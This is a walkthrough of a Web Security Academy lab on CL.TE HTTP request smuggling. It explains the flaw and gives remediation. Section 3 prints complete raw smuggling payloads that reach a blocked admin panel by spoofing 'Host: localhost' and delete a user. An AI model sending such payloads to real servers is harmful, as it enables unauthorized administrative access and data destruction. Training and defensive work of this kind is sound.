## Challenge Overview
* **Challenge name**: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

---

## 1. Fundamental Concepts

Modern enterprise web architectures frequently rely on multi-tier infrastructure where an edge reverse proxy (Front-end) terminates incoming client traffic, enforces perimeter security controls, and dispatches legitimate requests to internal application servers (Back-end) over persistent, multiplexed TCP connections.

### 1.1. Perimeter Access Control vs. Internal Implicit Trust
* **Path-Based Perimeter Filtering:** Front-end reverse proxies often implement path-based routing restrictions. Administrative endpoints such as `/admin` are explicitly blocked from external access, returning 403 Forbidden responses to external clients.
* **Internal Trust Assumptions:** Operating behind this defensive perimeter, back-end application servers frequently adopt an implicit trust model. Back-ends assume that any request arriving over the internal network has already been sanitized by the edge proxy, or they rely on headers such as `Host: localhost` to grant privileged administrative capabilities.

### 1.2. The Mechanics of CL.TE Request Smuggling
* **Message Framing Standards:** Under HTTP/1.1 (RFC 7230), message boundaries are determined by `Content-Length` (fixed byte count) or `Transfer-Encoding: chunked` (variable self-delimiting chunks terminated by `0\r\n\r\n`).
* **The CL.TE Smuggling Vector:** In a CL.TE configuration discrepancy, the Front-end parses the message body strictly according to `Content-Length`, while the Back-end parses according to `Transfer-Encoding: chunked`. By nesting an administrative request inside the body of an authorized public request (e.g., `POST /`), the front-end only evaluates the outer path, completely blind to the internal payload that will be executed directly by the back-end.

---

## 2. Attack Model & Architecture

The attack model demonstrates how transport-layer desynchronization completely invalidates front-end perimeter controls, allowing an unauthenticated external attacker to reach internal administrative interfaces and invoke privileged operations.

```text
[Attacker]
    │
    │ 1. Sends authorized request: POST / HTTP/1.1 (Allowed by Front-end)
    │    Content-Length covers full payload; Transfer-Encoding: chunked
    │    Body contains smuggled: POST /admin HTTP/1.1 with Host: localhost
    ▼
[Front-end Server] (Prioritizes Content-Length)
    │ Inspects path: 'POST /' -> Allowed (Bypasses /admin perimeter block)
    │ Forwards entire byte stream over shared TCP connection to Back-end
    ▼
[Back-end Server] (Prioritizes Transfer-Encoding: chunked)
    │ Reads chunk '1', 'A', and terminating chunk '0\r\n\r\n' -> Completes Request 1 (200 OK)
    │ Nested request 'POST /admin' with 'Host: localhost' remains in TCP socket buffer
    ▼
[Subsequent Normal Request from Attacker]
    │ Arrives on the same reused TCP connection
    │ The initial bytes are absorbed into the body of 'POST /admin' (Content-Length: 5)
    │ Back-end executes POST /admin with Host: localhost -> Returns Admin Panel HTML
    ▼
[Attacker identifies /admin/delete?username=carlos and executes deletion]
```

### 2.1. Attack Data Flow & Challenges
1. **Step 1 - Perimeter Bypass:** The attacker crafts an outer request to an innocuous endpoint (`POST /`) containing `Content-Length` covering the full payload, alongside `Transfer-Encoding: chunked`. The Front-end inspects the path `'/'`, determines it is publicly accessible, and forwards the entire stream to the Back-end.
2. **Step 2 - Back-end Stream Desynchronization:** The Back-end parses the stream using `Transfer-Encoding: chunked`. It stops reading at the terminating chunk `0\r\n\r\n`, processes the outer request, and leaves the remaining bytes (the nested administrative request) in the TCP socket receive buffer.
3. **Step 3 - Localhost Restriction Discovery:** Initial attempts to smuggle `GET /admin` without a Host header succeed in reaching the back-end, but the back-end inspects the effective Host header and responds: `"Admin interface only available to local users"`.
4. **Step 4 - The Duplicate Header Obstacle:** Injecting `Host: localhost` into a smuggled GET request causes a collision: when the subsequent request arrives, its Host header creates duplicate headers, triggering an HTTP 400 Bad Request error (`"Duplicate header names are not allowed"`).
5. **Step 5 - Body Absorption & State Isolation:** The attacker circumvents header collision by structuring the smuggled request as `POST /admin` with its own `Content-Type`, isolated headers, and a trailing `Content-Length: 5`. This cleanly encapsulates the incoming request line into the POST body, completely avoiding duplicate header conflicts.
6. **Step 6 - Administrative Action Execution:** With administrative access unlocked, the attacker targets the user deletion functionality: `POST /admin/delete?username=carlos HTTP/1.1` with `Host: localhost`. The back-end executes the deletion and returns an HTTP 302 Found redirect, completing the objective.

### 2.2. Root Causes
* **Front-end Specification Divergence:** The Front-end violates RFC 7230 Section 3.3.3 by failing to prioritize Transfer-Encoding when both Content-Length and Transfer-Encoding are present.
* **Flawed Perimeter Security Model:** The system relies entirely on edge proxies for path access control rather than enforcing role-based authorization natively on the application back-end.
* **Insecure Origin Validation:** The back-end relies on client-supplied headers (`Host: localhost`) to verify administrative privileges rather than authenticating internal session tokens.

---

## 3. Vulnerability Exploitation

The vulnerability was proven and exploited through an iterative multi-stage attack using Burp Suite Repeater.

### 3.1. Baseline Inspection & Protocol Adjustment
Initial requests were automatically negotiated over HTTP/2 by default. A baseline request to `'/'` was captured, confirming target responsiveness with an HTTP/2 200 OK response.



### 3.2. Verifying CL.TE Desynchronization
To test for CL.TE vulnerability, the protocol was switched to HTTP/1.1 and automatic Content-Length updating was disabled. A probe request was constructed appending a single `'G'` character after the terminating chunk:

```http
POST / HTTP/1.1
Host: 0a3e00350495102482f42ec4004f003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Transfer-Encoding: chunked

1
A
0

G
```

Sending this probe for the first time returned an `HTTP/1.1 200 OK` response as the outer request completed.



Sending a second request on the same connection resulted in an immediate `HTTP/1.1 404 Not Found` response containing JSON `"Not Found"`. The smuggled `'G'` prepended to `POST /` formed an unrecognized `GPOST /` route, which the back-end routing table rejected. This confirmed that CL.TE desynchronization was active.



### 3.3. Bypassing Front-end Controls & Localhost Challenge
Next, a smuggled request targeting `'/admin'` was injected using an open trailing header `abc: tuki` with `Content-Length: 41`:

```http
POST / HTTP/1.1
Host: 0a3e00350495102482f42ec4004f003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Transfer-Encoding: chunked

1
A
0

GET /admin HTTP/1.1
abc: tuki
```



When the second request arrived, the Front-end forwarded it, and the back-end executed `GET /admin`. However, the response returned: `"Admin interface only available to local users"`. The front-end control was bypassed, but the back-end enforced a localhost restriction.



### 3.4. Overcoming Duplicate Header Collision
To spoof the origin, `Host: localhost` was added to the smuggled GET request (`Content-Length: 58`):

```http
POST / HTTP/1.1
Host: 0a3e00350495102482f42ec4004f003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Transfer-Encoding: chunked

1
A
0

GET /admin HTTP/1.1
Host: localhost
abc: tuki
```



On the second request, the back-end returned `HTTP/1.1 400 Bad Request` with: `"Duplicate header names are not allowed"`. Because `abc: tuki` only absorbed the request line of the next request, the next request's `Host: 0a3e...` header remained active, creating two Host headers.



### 3.5. Body Absorption via Smuggled POST Request
To cleanly isolate the smuggled headers and avoid duplicate header collisions, the smuggled request was converted into a POST request with its own closed header block and a small body absorption length (`Content-Length: 5` with body `tuki`):

```http
POST / HTTP/1.1
Host: 0a3e00350495102482f42ec4004f003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

1
A
0

POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

tuki
```



Dispatching the second request triggered the back-end to consume the next request into the POST body. The back-end rendered the full Admin Panel HTML, revealing the user management interface and the deletion link: `/admin/delete?username=carlos`.



### 3.6. Executing User Deletion
The payload was adjusted to target the deletion endpoint: `POST /admin/delete?username=carlos HTTP/1.1` with `Host: localhost` (outer `Content-Length: 147`):

```http
POST / HTTP/1.1
Host: 0a3e00350495102482f42ec4004f003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Transfer-Encoding: chunked

1
A
0

POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

tuki
```

Sending this attack request followed by a second request resulted in an `HTTP/1.1 302 Found` response redirecting to `/admin`, confirming Carlos was successfully deleted.



The Web Security Academy platform confirmed the lab was solved.



---

## 4. Remediation & Prevention

Mitigating HTTP Request Smuggling and perimeter authorization bypasses requires layered defense across reverse proxies and application code:

### 4.1. End-to-End HTTP/2 Architecture
* **Binary Framing Across Tiers:** Deploy HTTP/2 natively from clients to the front-end and from the front-end to back-end application servers. HTTP/2 eliminates text-based length ambiguity through binary framing.
* **Avoid Protocol Downgrades:** Avoid HTTP/2 downgrading at reverse proxies. Translating binary HTTP/2 into HTTP/1.1 text streams when dispatching to internal servers routinely reintroduces framing desynchronizations.

### 4.2. Front-end Reverse Proxy Normalization
* **Reject Ambiguous Framing:** Configure reverse proxies (Nginx, HAProxy, Envoy) to reject any request containing both Content-Length and Transfer-Encoding with an HTTP 400 Bad Request.
* **Header Normalization:** Enforce strict HTTP/1.1 header normalization: strip or rewrite conflicting headers and standardize chunked bodies before routing upstream.

### 4.3. Application-Tier Defense-in-Depth
* **Enforce Native RBAC:** Never rely solely on reverse proxies for path access control. Critical administrative functions must enforce cryptographic session authentication and role-based access control (RBAC) directly inside the application logic.
* **Eliminate Header-Based Trust:** Never trust client-supplied headers such as `Host: localhost` or `X-Forwarded-For` for security-critical access decisions without cryptographically verifiable mutual TLS (mTLS) or internal tokens.
* **Isolate Upstream Connection Pools:** Disable persistent connection reuse across untrusted client boundaries on internal TCP sockets, ensuring pipeline state cannot leak across distinct sessions.
